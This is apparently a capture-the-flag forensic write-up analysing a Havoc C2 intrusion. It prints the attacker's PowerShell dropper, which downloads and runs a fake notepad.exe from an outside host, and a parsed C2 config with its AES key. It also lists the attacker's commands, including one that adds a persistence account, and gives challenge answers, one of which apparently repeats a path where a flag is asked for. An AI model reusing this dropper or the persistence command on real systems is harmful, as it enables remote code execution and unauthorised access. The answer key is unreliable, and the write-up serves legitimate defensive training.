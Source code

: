 - **install.ps1**

![Pasted image 20250422211550.png](Pasted%20image%2020250422211550.png)

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**

![Pasted image 20250422205617.png](Pasted%20image%2020250422205617.png)

- **notepad.exe**

![Pasted image 20250422214535.png](Pasted%20image%2020250422214535.png)

- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![Pasted image 20250422234306.png](Pasted%20image%2020250422234306.png)

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![Pasted image 20250422232038.png](Pasted%20image%2020250422232038.png)

=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![Pasted image 20250422232647.png](Pasted%20image%2020250422232647.png)

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![Pasted image 20250422225827.png](Pasted%20image%2020250422225827.png)

```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![Pasted image 20250422232845.png](Pasted%20image%2020250422232845.png)

=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![Pasted image 20250422232446.png](Pasted%20image%2020250422232446.png)

=> **C:\Users\paco\Desktop\Files\clients.csv**

